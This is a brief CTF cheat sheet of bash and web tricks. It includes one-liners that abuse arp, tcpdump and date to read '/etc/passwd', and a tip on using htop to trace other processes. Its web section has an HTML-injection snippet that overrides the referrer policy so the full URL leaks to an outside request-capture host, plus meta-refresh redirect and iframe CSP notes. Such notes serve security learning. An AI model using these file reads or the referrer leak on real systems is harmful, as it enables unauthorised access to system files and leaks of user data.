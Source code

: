# 2020-01-01 CTF's Bytes


## BASH/MISC

1. **Bash Commands that can do Local read file**
    * arp -v -f '/etc/passwd'
    * tcpdump -c 1 -vvvvvv -V '/etc/passwd'
    * date '+%s' -f '/etc/passwd'
    * od filename 

2. **Using htop/top command to seek into other process memory**

    * htop/top command can be used to strace a process sys calls. Steps:
        * Run htop
            ```bash
            root@fc7e34d51219:/# htop
            ```
        * Goto process you need to see working of 
        * Press ‘s’ . It will show strace of the corresponding process

3. **The mysterious ^D(Ctrl+D)**

    * LIke ^C , ^D is also used to Exit a program but ^D sends an EOF on standard input to exit the program while ^C uses SIGINT to exit. 

        Run `perl` in interactive mode and see it in action

        ```bash

        root@fc7e34d51219:/ctf# perl -
        print(23);
        print("hello??");
        print("hmmm");
        ```
        If we use ^C it will exit normally without executing any, but using ^D will execute the commands. Now it's not only with perl, many command line utilities follow same.


## WEB

1. **HTML - Meta tag tricks**
    
    Meta tags can be used to override referrer policy
    ```php

    <?php 
      header("Referrer-Policy: no-referrer");
    ?>

    <html>
      <body>
          <meta name="referrer" content="unsafe-url">
          <img src="http://zeta2.free.beeceptor.com" >
      </body>
    </html>
    ```

    The referrer policy added by PHP will be ignored. So if we have HTML-injection we can basically override referrer policy.


2. **Meta tags redirect**
    We can use meta tags to redirect to different site

    ```html

    <meta http-equiv="refresh" content="0;URL='http://example.com/'" />
    ```

3. **Iframe: Override CSP In IFRAME's**

    * Lets say http://example.com has some CSP setting. 
    * Iframe also has a csp attribute which allows us to implement csp on the frame source site.
    
    ```html
    <iframe csp="script:none" src='example.com'>
    ```
    The CSP which is more strict (frame’s attribute or coming from src tag) will be chosen as CSP within iframe. More on https://w3c.github.io/webappsec-cspee/


## New Tools to improve Bug Bounty flow

* HTTP Parameter finding : https://github.com/0xsapra/fuzzparam
* Logic bugs finding : https://github.com/ngalongc/openapi_security_scanner
